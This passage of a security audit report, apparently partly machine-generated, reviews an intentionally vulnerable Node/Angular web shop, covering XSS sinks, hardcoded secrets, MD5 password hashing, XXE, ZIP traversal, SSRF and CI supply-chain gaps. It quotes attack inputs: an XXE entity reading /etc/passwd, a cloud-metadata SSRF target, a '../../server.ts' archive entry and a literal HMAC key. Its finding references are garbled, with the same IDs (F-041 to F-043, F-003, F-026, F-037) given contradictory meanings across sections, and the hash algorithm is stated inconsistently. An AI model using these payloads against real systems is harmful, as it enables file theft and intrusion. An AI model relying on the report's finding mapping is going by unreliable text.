A global input validation middleware would intercept every request after body parsing and reject or strip values that violate type, length, or format constraints before the request reaches any route handler. No such middleware is mounted in `server.ts`.

**Security assessment**

`server.ts` mounts `body-parser`, `cookie-parser`, `helmet`, and compression middleware globally, but no validation middleware. Routes receive raw `req.body` with no guarantee about field types or lengths. Routes that call dangerous sinks - `eval()`, `vm.runInContext()`, raw SQL, `libxmljs2` - cannot rely on a shared upstream gate; each must implement its own validation, and most do not.

**Relevant findings**

- 🟠 [F-062](#f-062) — Absence of a global validation layer means the `eval()` sink in `routes/userProfile.ts:62` receives unsanitized input.
- 🟠 [F-063](#f-063) — No middleware-level throttling on the login route allows unlimited credential-stuffing attempts.
- 🟠 [F-064](#f-064) — Raw `orderLinesData` reaches `vm.runInContext()` at `routes/b2bOrder.ts:23` with no upstream type check.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.7.1 Client-Side Output Sanitization (Angular DomSanitizer)](#771-client-side-output-sanitization-angular-domsanitizer)
- [7.7.2 Content Security Policy](#772-content-security-policy)

**Implemented controls:** Angular template binding (`{{ }}`) applies automatic HTML escaping for most string interpolations; Angular `DomSanitizer` is imported in `about.component.ts` and `last-login-ip.component.ts`.

**Assessment:** Angular's default template escaping provides a baseline output encoding layer for ordinary string bindings. This baseline is deliberately bypassed in two components via `bypassSecurityTrustHtml()`, inserting HTML from server-controlled strings directly into the DOM. No Content-Security-Policy header is served to restrict script execution in the event of an XSS bypass.

<a id="angular-domsanitizer"></a><a id="client-side-output-sanitization-angular-domsanitizer"></a>
#### 7.7.1 Client-Side Output Sanitization (Angular DomSanitizer)

**Status:** 🟡 Partial - Angular template escaping is active by default, but `bypassSecurityTrustHtml()` is called in two components to render server-supplied HTML, creating stored-XSS sinks.

Angular's template engine HTML-encodes values bound with `{{ }}` syntax, preventing most reflected injection. For cases where the application intentionally renders HTML, Angular provides `DomSanitizer` as a controlled bypass, expected to be used only when the HTML source is trusted.

**Security assessment**

`about.component.ts:119` calls `bypassSecurityTrustHtml(feedback.comment)` to render user-submitted feedback comments as HTML. `last-login-ip.component.ts:39` calls `bypassSecurityTrustHtml(lastLoginIp)` to render a JWT claim value as HTML. Both strings originate from user-controlled or attacker-injectable inputs. An attacker who stores a `<script>` or `` payload in a feedback comment or in the `lastLoginIp` JWT claim field achieves stored XSS execution in any victim's browser that views the about page or profile header.

**Relevant findings**

- 🔴 [F-044](#f-044) — `bypassSecurityTrustHtml()` on `feedback.comment` in `about.component.ts:119` enables stored XSS via the feedback form.
- 🔴 [F-045](#f-045) — `bypassSecurityTrustHtml()` on the `lastLoginIp` JWT claim in `last-login-ip.component.ts:39` enables stored XSS via the header injection route.
- 🔴 [F-078](#f-078) — `innerHTML` assignment in `frontend/src/hacking-instructor/index.ts:126` creates a DOM-based XSS sink via `snarkdown()` output.

<a id="content-security-policy"></a>
#### 7.7.2 Content Security Policy

**Status:** 🔴 Missing - no `Content-Security-Policy` header is served; any XSS payload that executes faces no browser-enforced script-source restriction.

A `Content-Security-Policy` header instructs the browser to restrict the origins from which scripts, stylesheets, and other resources may load, and whether inline scripts are permitted. It is the primary browser-enforced mitigation that limits the damage of an XSS payload.

**Security assessment**

`server.ts` mounts `helmet` for security headers, but the Helmet configuration does not enable `contentSecurityPolicy`. Confirmed via recon: no `Content-Security-Policy` response header appears on any route. The two stored-XSS sinks in [§7.7.1](#771-client-side-output-sanitization-angular-domsanitizer) execute without restriction because the browser has no policy to enforce.

**Relevant findings**

- 🔴 [F-044](#f-044) — Absent CSP means the stored-XSS payload in `about.component.ts:119` executes in any victim browser with no browser-level mitigation.
- 🔴 [F-045](#f-045) — Absent CSP allows the `lastLoginIp` XSS payload to exfiltrate `localStorage` JWT tokens without a network-request policy blocking the exfiltration request.
- 🔴 [F-078](#f-078) — DOM-based XSS — `index.ts:126` via `innerHTML` in the hacking instructor is unblocked by any script-src restriction.

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.8.1 Security headers](#781-security-headers)

**Implemented controls:** `helmet` middleware is mounted globally in `server.ts`, providing `X-Content-Type-Options: nosniff`, `X-DNS-Prefetch-Control`, `X-Download-Options`, and `X-Frame-Options: SAMEORIGIN` by default.

**Assessment:** Helmet provides a subset of browser security headers out of the box. `Content-Security-Policy` and `Strict-Transport-Security` are not configured. CORS policy is open by default - `server.ts` does not mount `cors()` with an origin allowlist, and the Swagger documentation endpoint is publicly accessible without CORS restrictions.

<a id="security-headers"></a><a id="security-headers-hsts-referrer-policy"></a>
#### 7.8.1 Security headers

**Status:** 🟡 Partial - Helmet sets several defensive headers (`X-Content-Type-Options`, `X-Frame-Options`, `X-XSS-Protection`), but `Content-Security-Policy` and `Strict-Transport-Security` are absent.

Helmet middleware is mounted as one of the first global middleware entries in `server.ts`. It sets default security headers on every HTTP response without application-specific configuration. The `X-Frame-Options: SAMEORIGIN` header prevents the application from being embedded in cross-origin frames.

**Security assessment**

The Helmet defaults cover content-type sniffing prevention, download options, and basic framing protection. Two significant headers are missing: `Content-Security-Policy` (see [§7.7.2](#772-content-security-policy)) and `Strict-Transport-Security`, which would enforce HTTPS for returning browsers. No `Referrer-Policy` header is configured. CORS is effectively open - no `cors()` middleware with an origin allowlist is mounted, leaving cross-origin `fetch` unrestricted for credentialed requests.

**Relevant findings**

- No dedicated finding routed in this assessment.

_Additional cataloged controls without a dedicated subsection (no implementation prose and no linked findings): CORS policy._

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.9.1 Password Hashing and Credential Storage](#791-password-hashing-and-credential-storage)
- [7.9.2 Password hashing algorithm](#792-password-hashing-algorithm)
- [7.9.3 Secrets management](#793-secrets-management)
- [7.9.4 Data encryption at rest](#794-data-encryption-at-rest)

**Implemented controls:** `RS256` asymmetric signing algorithm selected for JWT issuance; HMAC-SHA256 used for security-answer hashing; cookie parser configured with a secret key.

**Assessment:** The cryptographic algorithm choices are reasonable on paper - `RS256` for JWT, HMAC-SHA256 for answer hashes - but the key material for every algorithm is hardcoded in `lib/insecurity.ts`. Password storage uses unsalted `MD5`, which is not a password hashing algorithm. Payment card numbers are stored as unencrypted integers. The combination means a single database read yields usable credentials and payment data.

<a id="password-hashing"></a><a id="password-hashing-and-credential-storage"></a>
#### 7.9.1 Password Hashing and Credential Storage

**Status:** 🔴 Missing - passwords are hashed with `crypto.createHash('md5')` - a general-purpose hash with no salt and no work factor - making stored credentials directly recoverable from a database dump.

Passwords are hashed before storage in the `Users` table. `lib/insecurity.ts:43` defines the hashing function used throughout the codebase for all password operations - registration, login comparison, and reset. `models/user.ts:77` stores the result in the `password` column.

**Security assessment**

`lib/insecurity.ts:43` hashes with `crypto.createHash('md5').update(password).digest('hex')`. `MD5` is a general-purpose hash with no salt and no key stretching. A GPU cracking rig processes billions of `MD5` hashes per second, and any `MD5` value matching a word in a standard password list is recoverable in seconds. The absence of a salt also means identical passwords produce identical hashes, making rainbow-table attacks viable. `models/securityAnswer.ts:46` applies the same HMAC-MD5 approach to security answers.

The hashing call in `lib/insecurity.ts:43`:

```ts
return crypto.createHash('md5').update(password).digest('hex')
```

**Relevant findings**

- 🔴 [F-003](#f-003) — Hardcoded RSA key in the same file (`lib/insecurity.ts:23`) means the JWT signing boundary and password hashing boundary share a single compromised source file.
- 🔴 [F-026](#f-026) — Payment card numbers stored without encryption in `models/card.ts:39` compound the exposure from a database dump.
- 🟠 [F-037](#f-037) — MD5 without salt in `lib/insecurity.ts:43` means any dumped password hash is immediately recoverable.

<a id="password-hashing-algorithm"></a>
#### 7.9.2 Password hashing algorithm

**Status:** 🔴 Missing - no adaptive work-factor algorithm (bcrypt, scrypt, Argon2) is used anywhere in the password lifecycle; all password comparisons use `MD5`.

Password hashing algorithm selection determines the computational cost imposed on an offline attacker who obtains the hash database. The correct controls for modern applications are bcrypt (cost factor ≥12), scrypt, or Argon2id - all of which are computationally expensive by design.

**Security assessment**

`lib/insecurity.ts:43` uses `crypto.createHash('md5')`. `MD5` was never designed as a password hash - it has no work factor, no salt parameter, and runs in nanoseconds per attempt on commodity hardware. `models/user.ts:77` and `models/securityAnswer.ts:46` both call this function for credential storage. Replacing `MD5` with bcrypt or Argon2id would be the minimum remediation; bcrypt's Node\.js binding (`bcryptjs` or `bcrypt`) is a drop-in replacement for the current call site.

**Relevant findings**

- 🔴 [F-003](#f-003) — The same `lib/insecurity.ts` file that contains the hardcoded RSA key also implements the weak password hashing, making both defects a single-file fix target.
- 🔴 [F-026](#f-026) — Unencrypted card data storage in `models/card.ts:39` means a dump yields payment credentials alongside reversible password hashes.
- 🟠 [F-037](#f-037) — MD5 hashing without salt at `lib/insecurity.ts:43` is the direct location of the algorithm weakness.

<a id="secrets-management"></a>
#### 7.9.3 Secrets management

**Status:** 🔴 Missing - the RSA private key, HMAC key, cookie secret, and hashid salt are all hardcoded string literals in `lib/insecurity.ts`, committed to the public repository.

Secrets management is the control that keeps cryptographic key material out of source code and configuration files, typically by injecting secrets at runtime from an environment variable or a managed secret store. The intended control is that no key material appears in the repository.

**Security assessment**

Four distinct secrets are hardcoded in `lib/insecurity.ts`:

- RSA private key at line 23 - signs every JWT issued by the application.
- HMAC key `'pa4qacea4VK9t9nGv7yZtwmj'` at line 44 - used for security-answer hashing and a password reset verification.
- Cookie secret `'kekse'` (referenced in `server.ts`) - protects signed cookies.
- Hashid salt in `routes/continueCode.ts` - used for challenge-progress obfuscation.

Every secret is visible in any repository clone. Rotation requires a source-code change and redeployment. The `encryptionkeys/` directory additionally serves the public half of the RSA key pair at an unauthenticated HTTP endpoint.

**Relevant findings**

- 🔴 [F-003](#f-003) — Hardcoded RSA private key at `lib/insecurity.ts:23` is the highest-impact secret exposure — it allows arbitrary JWT forgery.
- 🔴 [F-026](#f-026) — Hardcoded HMAC key at `lib/insecurity.ts:44` allows pre-computation of valid security-answer hashes for any user.
- 🟠 [F-037](#f-037) — Cookie secret hardcoded in `server.ts` allows cookie-signature forgery.

<a id="data-encryption-at-rest"></a>
#### 7.9.4 Data encryption at rest

**Status:** 🔴 Missing - payment card numbers are stored as unencrypted integers in `models/card.ts:39`; TOTP secrets are stored as plaintext strings in `models/user.ts:113`; no column-level encryption is applied to any sensitive field.

Data encryption at rest ensures that sensitive values in the database are unreadable to an attacker who obtains a database dump. At minimum, payment card data and authentication secrets require encryption with keys stored separately from the database.

**Security assessment**

`models/card.ts:39` defines the card number column as `DataTypes.INTEGER` - no encryption, no masking, no truncation to last-four digits. `models/user.ts:113` stores the TOTP secret as a plaintext string. A single SQL injection that dumps the `Users` and `Cards` tables yields full card numbers and TOTP seeds alongside reversible password hashes. SQLite stores data as a flat file on disk (`data/juiceshop.sqlite` or equivalent), and no file-level encryption is configured.

**Relevant findings**

- 🔴 [F-003](#f-003) — Hardcoded RSA key in `lib/insecurity.ts:23` means key material and database are protected by the same (absent) access control.
- 🔴 [F-026](#f-026) — Payment card number stored as an unencrypted integer in `models/card.ts:39` — directly readable from any database dump.
- 🟠 [F-037](#f-037) — TOTP secret plaintext storage in `models/user.ts:113` reduces 2FA to first-factor strength for any attacker with database read access.

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.10.1 XML parser hardening](#7101-xml-parser-hardening)
- [7.10.2 ZIP path traversal prevention](#7102-zip-path-traversal-prevention)
- [7.10.3 SSRF prevention](#7103-ssrf-prevention)

**Implemented controls:** `multer 1.4.5-lts.1` enforces a file-size limit on multipart uploads; `sanitize-filename` sanitizes upload filenames; `unzipper` library handles ZIP extraction.

**Assessment:** The file upload endpoint at `POST /file-upload` accepts XML, ZIP, and YAML files. Each parser is configured with its default unsafe settings: `libxmljs2` has external entity expansion enabled, the ZIP extractor does not validate entry paths against a base directory, and `js-yaml` is called with `yaml.load()` (unsafe) rather than `yaml.safeLoad()`. The profile image URL upload route (`POST /profile/image/url`) fetches a caller-supplied URL server-side with no host allowlist, providing an SSRF vector.

<a id="xml-parser-hardening"></a>
#### 7.10.1 XML parser hardening

**Status:** 🔴 Missing - `libxmljs2` is invoked at `routes/fileUpload.ts:83` with external entity expansion enabled, allowing XXE file-read attacks via a crafted XML upload.

`routes/fileUpload.ts` handles XML file uploads by passing the file buffer to `libxmljs2.parseXmlString()`. The intent is to accept product data or complaint XML from customers or B2B partners. `libxmljs2` is a Node\.js binding for `libxml2`.

**Security assessment**

`routes/fileUpload.ts:83` calls `libxmljs2.parseXmlString(data, {noent: true})`. The `noent: true` option enables external entity expansion, the feature exploited in XXE attacks. A crafted XML payload containing `<!ENTITY xxe SYSTEM "file:///etc/passwd">` causes `libxml2` to read the referenced file and embed its contents in the parsed document, which is then echoed back in the HTTP response. The same parser handles YAML uploads at line 117 via `yaml.load()` (which executes arbitrary JavaScript in the yaml sandbox), compounding the risk on a single endpoint.

**Relevant findings**

- 🔴 [F-007](#f-007) — XXE at `routes/fileUpload.ts:83` allows reading arbitrary server-side files via a crafted XML upload.
- 🔴 [F-028](#f-028) — `noent: true` in the `libxmljs2` call is the specific option that must be changed to disable external entity expansion.
- 🔴 [F-030](#f-030) — YAML deserialization via `yaml.load()` at `routes/fileUpload.ts:117` provides a second unsafe parser on the same endpoint.

<a id="zip-path-traversal-prevention"></a>
#### 7.10.2 ZIP path traversal prevention

**Status:** 🔴 Missing - the ZIP extraction path in `routes/fileUpload.ts:44` validates entry paths with a string `includes()` check that is bypassable with `../` sequences, allowing writes outside the upload directory.

ZIP file upload is handled at `routes/fileUpload.ts:44`. The route uses `unzipper` to iterate archive entries and write each to the uploads directory. A path containment check is intended to prevent entries with `..` sequences from escaping the target directory.

**Security assessment**

`routes/fileUpload.ts:44` uses a JavaScript `includes('../')` check on the raw entry name. This check is bypassable with URL-encoded sequences (`..%2F`), null bytes, or double-encoding, because `unzipper` normalizes the path after the check fires. A crafted ZIP entry named `../../server.ts` (or an encoded equivalent) writes its content to an arbitrary path relative to the process working directory, overwriting application source files or configuration.

**Relevant findings**

- 🔴 [F-007](#f-007) — ZIP path traversal at `routes/fileUpload.ts:44` allows arbitrary file write via a crafted archive upload.
- 🔴 [F-028](#f-028) — The bypassable `includes('../')` check is the specific control that must be replaced with a normalized path comparison.
- 🔴 [F-030](#f-030) — The YAML and XML parsers on the same endpoint amplify the risk of the upload endpoint as a whole.

<a id="ssrf-prevention"></a>
#### 7.10.3 SSRF prevention

**Status:** 🔴 Missing - `routes/profileImageUrlUpload.ts:24` fetches a user-supplied URL server-side with no host allowlist, enabling SSRF to internal network addresses and cloud metadata endpoints.

Profile image upload via URL is handled by `POST /profile/image/url`. `routes/profileImageUrlUpload.ts` accepts a `imageUrl` field in the request body, uses Node's `http`/`https` to fetch it, and stores the response body as the user's profile image. The intent is to allow users to specify an image URL instead of uploading a file.

**Security assessment**

`routes/profileImageUrlUpload.ts:24` issues a server-side `fetch(imageUrl)` where `imageUrl` is taken directly from `req.body`. No host allowlist, scheme restriction, or DNS rebinding protection is applied. This allows a request to `http://169.254.169.254/latest/meta-data/` (AWS instance metadata) or to internal services on the container network. The response body is stored and later served as image content, providing a side-channel to read server-accessible URLs.

**Relevant findings**

- 🔴 [F-007](#f-007) — SSRF at `routes/profileImageUrlUpload.ts:24` allows requests to internal network addresses via the profile image URL field.
- 🔴 [F-028](#f-028) — No host allowlist on the URL fetch is the missing control that would restrict reachable targets.
- 🔴 [F-030](#f-030) — The upload endpoint family shares a common lack of input validation that enables SSRF, XXE, and path traversal from the same surface.

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.11.1 Container base image](#7111-container-base-image)
- [7.11.2 Dependency lockfile](#7112-dependency-lockfile)
- [7.11.3 GitHub Actions permissions hardening](#7113-github-actions-permissions-hardening)
- [7.11.4 GitHub Actions tag pinning](#7114-github-actions-tag-pinning)
- [7.11.5 SBOM generation](#7115-sbom-generation)
- [7.11.6 Static analysis](#7116-static-analysis)
- [7.11.7 Automated SCA scanning](#7117-automated-sca-scanning)
- [7.11.8 Automated dependency updates](#7118-automated-dependency-updates)

**Implemented controls:** Multi-stage `Dockerfile` targets Google Distroless (`gcr.io/distroless/nodejs24-debian13`) for the production runtime image; CycloneDX SBOM generated via `@cyclonedx/cyclonedx-npm`; GitHub Dependabot configured for npm; CodeQL static analysis via `.github/workflows/codeql-analysis.yml`; OWASP ZAP DAST baseline scheduled weekly.

**Assessment:** The runtime image choice (Distroless) and SBOM generation are the two strongest supply-chain controls in this codebase. Against these positives, the dependency lockfile is disabled in `.npmrc`, GitHub Actions permissions default to `write-all`, most third-party actions are pinned to mutable version tags rather than commit SHAs, the `postinstall` script in `Dockerfile:5` runs as root, and Dependabot coverage excludes GitHub Actions and Docker ecosystems. The supply-chain posture is weak despite the SBOM presence.

<a id="container-base-image"></a>
#### 7.11.1 Container base image

**Status:** 🟢 Adequate - the production container uses Google Distroless (`gcr.io/distroless/nodejs24-debian13`), which excludes a shell, package manager, and most OS utilities, substantially reducing the post-exploitation surface.

The `Dockerfile` uses a two-stage build: a `node:24` builder stage compiles and installs dependencies, then copies only the application files and `node_modules` into a Distroless base image. Distroless images contain only the Node\.js runtime and its direct OS dependencies, with no shell or interactive tooling.

**Security assessment**

The Distroless image is the most effective single hardening choice in this codebase. Post-exploitation pivot via the container is substantially harder without a shell - reverse shells, package installation, and OS-level reconnaissance are blocked at the image level. The base image tag (`nodejs24-debian13`) is not digest-pinned in `Dockerfile:1` and `Dockerfile:23` (🟠 [F-041](#f-041) — Root-Privilege Postinstall Execution in Docker Build — Dockerfile:5), which means a supply-chain compromise of the upstream image tag would be silently consumed on the next build. This is the primary remaining gap for this control.

**Relevant findings**

- 🟠 [F-041](#f-041) — Docker base image not pinned to a digest in `Dockerfile:1` and `Dockerfile:23`; a mutable tag allows silent base-image substitution.
- 🟠 [F-042](#f-042) — The build stage runs `npm install` as root (`Dockerfile:5`), executing untrusted postinstall scripts with elevated privileges.
- 🟠 [F-043](#f-043) — `Dockerfile` has no `HEALTHCHECK` instruction, reducing runtime observability.

<a id="dependency-lockfile"></a>
#### 7.11.2 Dependency lockfile

**Status:** 🔴 Missing - `.npmrc:1` sets `package-lock=false`, disabling `package-lock.json` generation and making every `npm install` a floating resolution that may pull different versions on each build.

A dependency lockfile records the exact resolved versions and checksums of every installed package, enabling reproducible builds. `package-lock.json` or `yarn.lock` is the standard lockfile for Node\.js projects.

**Security assessment**

`.npmrc:1` contains `package-lock=false`. This setting prevents `npm install` from writing or updating `package-lock.json`. Without a lockfile, each CI build resolves the latest semver-compatible version of every dependency; an attacker who publishes a malicious version of any transitive dependency with a version number that satisfies the declared range will have it silently installed on the next build. Dependency confusion attacks are also more feasible when the resolved version is not deterministic.

**Relevant findings**

- 🟠 [F-041](#f-041) — `package-lock.json` absent due to `.npmrc:1`; reproducible builds are not possible.
- 🟠 [F-042](#f-042) — Without a lockfile, `npm install` in the Docker build resolves floating versions, enabling dependency confusion.
- 🟠 [F-043](#f-043) — Supply-chain posture is weakened across all CI workflows that run `npm install` without a lockfile.

<a id="github-actions-permissions-hardening"></a>
#### 7.11.3 GitHub Actions permissions hardening

**Status:** 🟠 Weak - 10 of 13 workflow files grant `GITHUB_TOKEN` `write-all` permissions by inheriting the default, and no workflow has a top-level `permissions: {}` block to restrict the default scope.

GitHub Actions `GITHUB_TOKEN` permissions control what a workflow step can do with the repository: write to it, create releases, read packages, etc. The least-privilege approach is to set a top-level `permissions: {}` block granting only the specific permissions each workflow needs.

**Security assessment**

`ci.yml` and nine other workflow files have no `permissions:` block at the workflow level, meaning they run with the GitHub default - which grants `write-all` to the `GITHUB_TOKEN`. A malicious pull request that runs in these workflows can exfiltrate the token and use its write access to push to the repository, create releases, or overwrite workflow files. `.github/workflows/pr-compliance.yml:4` additionally uses a `pull_request_target` trigger, which runs in the context of the base repository and has access to secrets, making it a higher-risk combination.

**Relevant findings**

- 🟠 [F-041](#f-041) — `GITHUB_TOKEN` `write-all` permission on 10 of 13 workflows via missing `permissions:` block.
- 🟠 [F-042](#f-042) — `pull_request_target` in `pr-compliance.yml:4` with write-level token enables a malicious PR to execute code in the privileged workflow context.
- 🟠 [F-043](#f-043) — Long-lived administrative secret stored in `pr-compliance.yml:438` environment variables.

<a id="github-actions-tag-pinning"></a>
#### 7.11.4 GitHub Actions tag pinning

**Status:** 🟡 Partial - some third-party actions use mutable version tags (e.g. `@v3`, `@v2`) rather than commit SHA pins; one action in `release.yml` references an archived repository.

Pinning a GitHub Action to a commit SHA ensures that the exact code version used in the workflow cannot be changed by the action author after the pin is set. Mutable version tags (`@v3`, `@v2`) can be re-pointed to different commits, enabling supply-chain injection if the upstream repository is compromised or sold.

**Security assessment**

`codeql-analysis.yml:23` and `ci.yml:161` reference third-party actions with mutable tags. `release.yml:66` references an action from an archived upstream repository - archived repositories can be unarchived by a new owner and the action republished with malicious content. The `zaproxy/action-baseline` DAST action is pinned by tag only. Not all workflows are affected - some use SHA pins - but the inconsistency means the supply-chain posture is not uniformly hardened.

**Relevant findings**

- 🟠 [F-041](#f-041) — Third-party actions at mutable tags in `codeql-analysis.yml:23` and `ci.yml:161` allow silent action substitution.
- 🟠 [F-042](#f-042) — Archived action in `release.yml:66` with a mutable tag is a supply-chain risk if the repository is unarchived.
- 🟠 [F-043](#f-043) — Inconsistent SHA pinning across 13 workflows means the supply-chain posture cannot be audited without checking each workflow file.

<a id="sbom-generation"></a>
#### 7.11.5 SBOM generation

**Status:** 🟢 Adequate - CycloneDX SBOM is generated as part of the build pipeline via `@cyclonedx/cyclonedx-npm`, providing a machine-readable inventory of all npm dependencies for vulnerability scanning.

Software Bill of Materials generation is configured via `@cyclonedx/cyclonedx-npm` in `package.json`. The build pipeline produces a CycloneDX JSON SBOM that enumerates all direct and transitive npm dependencies with their resolved versions and package identifiers.

**Security assessment**

SBOM generation is one of the two strongest supply-chain controls in this codebase (alongside the Distroless base image). The CycloneDX output enables downstream tools to cross-reference component versions against CVE databases. The primary gap is that the SBOM is generated from a floating `npm install` without a lockfile ([§7.11.2](#7112-dependency-lockfile)), so the component versions captured in the SBOM may differ between builds; the SBOM reflects whatever `npm` resolved on that run, not a deterministic set.

**Relevant findings**

- 🟠 [F-041](#f-041) — SBOM generation is present but the lockfile absence means the SBOM component list may vary between builds.
- 🟠 [F-042](#f-042) — Released Docker images lack SLSA provenance attestation (`release.yml:50`), limiting the verifiability of the published artifacts.
- 🟠 [F-043](#f-043) — Container images are published without signing (`release.yml:1`), so the SBOM cannot be cryptographically bound to the image it describes.

<a id="static-analysis"></a><a id="static-analysis-codeql"></a>
#### 7.11.6 Static analysis

**Status:** 🟡 Partial - CodeQL is configured via `.github/workflows/codeql-analysis.yml` and runs on push and pull requests, but the workflow action is pinned to a mutable tag and the `permissions:` block is absent.

CodeQL static analysis is configured in `.github/workflows/codeql-analysis.yml`. It analyzes JavaScript and TypeScript source files using CodeQL's security query packs, producing alerts that appear in the GitHub Security tab. The workflow triggers on `push` to `master` and on pull requests.

**Security assessment**

CodeQL coverage is a genuine positive control: it catches a class of injection and taint-flow vulnerabilities that manual review misses. The workflow configuration has two gaps. First, the `github/codeql-action/analyze` step at `codeql-analysis.yml:23` is pinned to a mutable version tag, making the analysis step itself a supply-chain risk. Second, the workflow file lacks a top-level `permissions: {}` block (see [§7.11.3](#7113-github-actions-permissions-hardening)). Both are correctable without changing the analysis logic.

**Relevant findings**

- 🟠 [F-041](#f-041) — CodeQL action pinned to a mutable tag at `codeql-analysis.yml:23`.
- 🟠 [F-042](#f-042) — Absent `permissions:` block on the CodeQL workflow grants `GITHUB_TOKEN` `write-all` scope during analysis runs.
- 🟠 [F-043](#f-043) — Static analysis coverage does not prevent the intentional vulnerabilities in this codebase from shipping, but the analysis runs do flag a subset of them.

<a id="automated-sca-scanning"></a>
#### 7.11.7 Automated SCA scanning

**Status:** 🟢 Adequate - GitHub Dependabot is configured for the npm ecosystem in `.github/dependabot.yml`, generating automated pull requests when dependency vulnerabilities are detected.

Dependabot is configured in `.github/dependabot.yml` to monitor the npm dependency graph and open pull requests when a dependency version is associated with a known CVE or advisory. The configuration covers the npm ecosystem.

**Security assessment**

Dependabot coverage for npm is a positive baseline control. The primary gap is ecosystem coverage: `.github/dependabot.yml` does not configure Dependabot for GitHub Actions or Docker - meaning workflow action versions and the Docker base image tag are not monitored for advisories. The `package-lock=false` setting ([§7.11.2](#7112-dependency-lockfile)) also limits Dependabot's ability to determine the exact resolved versions being used, potentially reducing scan accuracy.

**Relevant findings**

- 🟠 [F-041](#f-041) — Dependabot ecosystem coverage excludes GitHub Actions and Docker, leaving those surfaces unmonitored for known vulnerabilities.
- 🟠 [F-042](#f-042) — Dependabot cannot remediate the lockfile absence it does not flag; dependency confusion is outside its scanning scope.
- 🟠 [F-043](#f-043) — Dependabot coverage is adequate for npm direct dependencies but does not cover transitive dependencies flagged by SBOM tooling.

<a id="automated-dependency-updates"></a>
#### 7.11.8 Automated dependency updates

**Status:** 🔴 Missing - no Renovate configuration (`renovate.json`) is present; Dependabot handles vulnerability alerts but does not perform broader version-update management or multi-ecosystem coverage.

Automated dependency updates cover proactive version bumps - not only security-triggered alerts but also regular patch-release adoption that reduces the gap between used and latest versions. Renovate is the most capable open-source tool for this, supporting npm, Docker, GitHub Actions, and other ecosystems in a single configuration file.

**Security assessment**

`renovate.json` is absent from the repository. Dependabot provides security-advisory-driven PRs for npm, but does not cover the GitHub Actions or Docker ecosystems, and does not generate proactive patch-version update PRs for non-vulnerable packages. The combination of a missing lockfile, no Renovate, and partial Dependabot coverage means version drift accumulates silently between advisory-triggered updates. The intentionally ancient `jsonwebtoken 0.4.0` and `express-jwt 0.1.3` pinned versions would be flagged by Renovate but are excluded from Dependabot by the project's explicit ignore list.

**Relevant findings**

- 🟠 [F-041](#f-041) — Absent `renovate.json` means multi-ecosystem automated update coverage is not in place.
- 🟠 [F-042](#f-042) — `jsonwebtoken 0.4.0` and `express-jwt 0.1.3` are pinned to versions with known vulnerabilities; no automated update tool will remediate them without explicit configuration.
- 🟠 [F-043](#f-043) — No automated dependency update tooling covers the Docker base image digest pinning gap.

### 7.12 Real-time and Not Applicable Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.12.1 WebSocket authentication](#7121-websocket-authentication)
- [7.12.2 Metrics endpoint access control](#7122-metrics-endpoint-access-control)

**Assessment:** `Socket.IO` is present in this codebase (`lib/startup/registerWebsocketEvents.ts`, `package.json`). The WebSocket channel opened at user registration carries no authentication gate; any connected client can receive and send socket events. No metrics endpoint (Prometheus, `GET /metrics`, health-check with sensitive data) was detected in this codebase. The WebSocket channel findings (🔴 [F-034](#f-034) — Unauthenticated WebSocket Channel — `registerWebsocketEvents.ts:24`, 🟠 [F-065](#f-065) — Uncontrolled Resource Consumption — `registerWebsocketEvents.ts:20`, 🟢 [F-090](#f-090) — No Actor Attribution on Socket Event Handlers — `registerWebsocketEvents.ts:34`) are routed to [§7.2](#72-identity-and-authentication-controls) (unauthenticated channel at registration) and [§7.4](#74-authorization-controls) (absent actor attribution). No AI/LLM, GraphQL, or gRPC surfaces were detected by the recon scan.

<a id="websocket-authentication"></a>
#### 7.12.1 WebSocket authentication

**Status:** 🔴 Missing - the `Socket.IO` channel opened in `lib/startup/registerWebsocketEvents.ts:24` accepts connections without verifying that the connecting client holds a valid session token; any visitor to the application can receive real-time event emissions.

WebSocket authentication requires that a server validate the connecting principal's identity before accepting the persistent connection. Without this check, server-push events (order updates, challenge-solve notifications, feedback events) are visible to unauthenticated clients.

**Security assessment**

`registerWebsocketEvents.ts:24` registers event handlers on the `Socket.IO` server without any JWT or session validation on the connection handshake. The connection handler receives a `socket` object but does not inspect `socket.handshake.auth` or the `Authorization` header to verify the client. As a result, unauthenticated clients can receive all broadcast events and interact with socket event handlers that modify server state. Connection counts are also unbounded (🟠 [F-065](#f-065) — Uncontrolled Resource Consumption — `registerWebsocketEvents.ts:20`), enabling resource exhaustion from anonymous connections.

**Relevant findings**

- 🔴 [F-034](#f-034) — Unauthenticated WebSocket channel in `registerWebsocketEvents.ts:24` allows any visitor to receive real-time event data.
- 🟠 [F-065](#f-065) — No connection-count limit on the WebSocket server enables resource exhaustion from unauthenticated clients.
- 🟢 [F-090](#f-090) — Socket event handlers carry no actor attribution, making audit and rate-limiting impossible.

<a id="metrics-endpoint-access-control"></a>
#### 7.12.2 Metrics endpoint access control

**Status:** - Not applicable - no Prometheus metrics endpoint, `GET /metrics` route, or equivalent operational data endpoint was detected in this codebase during recon. This control is catalogued for completeness; no findings are routed here.

**Security assessment**

The recon scan found no metrics or operational telemetry endpoint. If a metrics endpoint is added in future, it must be protected by authentication middleware before deployment to prevent information disclosure about internal application state, dependency versions, and request error rates.

**Relevant findings**

- No findings routed to this control.

### 7.13 Defense-in-Depth Summary

**Verdict:** -

The strongest individual controls in this codebase are the Google Distroless production runtime image and the CycloneDX SBOM generation pipeline. Distroless removes the shell and package manager from the production container, substantially narrowing post-exploitation options. The SBOM provides a machine-readable component inventory that downstream vulnerability scanning can consume. CodeQL static analysis and OWASP ZAP DAST run automatically in CI. The `RS256` algorithm choice for JWT signing is sound in principle - asymmetric signing provides a meaningful isolation boundary when the private key is protected.

